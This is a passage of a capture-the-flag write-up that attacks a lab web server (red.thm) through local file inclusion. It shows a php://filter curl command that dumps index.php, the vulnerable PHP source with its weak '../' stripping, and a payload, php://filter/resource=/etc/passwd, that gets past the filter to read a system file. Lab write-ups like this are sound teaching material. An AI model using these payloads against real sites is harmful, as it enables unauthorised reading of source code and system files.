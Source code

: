 ```abap
curl http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=index.php -o index.php
```

We now have the index.php

```abap
root@ip-10-201-16-46:~# curl http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=index.php -o index.php
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   468  100   468    0     0   152k      0 --:--:-- --:--:-- --:--:--  152k
root@ip-10-201-16-46:~# base64 --decode index.php
<?php 

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>
```

Next, we decode the content and see that the passed parameter is indeed sanitized. First, it has to start with a string ranging from a to z. Then "../" will be removed and after that "./" will be removed. This can be easily bypassed by using a PHP wrapper again. Instead of accessing the /etc/passwd/ file via navigation outside of the directory using "../" we directly access it. To prove our assumption, we rewrite the index.php by setting the \$page parameter to our liking and print the checks as well as the result after the sanitization

```abap
<?php 

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = "php://filter/resource=/etc/passwd"

print isset($page);
print preg_match("/^[a-z]/", $page);
print "<p>";
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    print $page;
}
?>
```
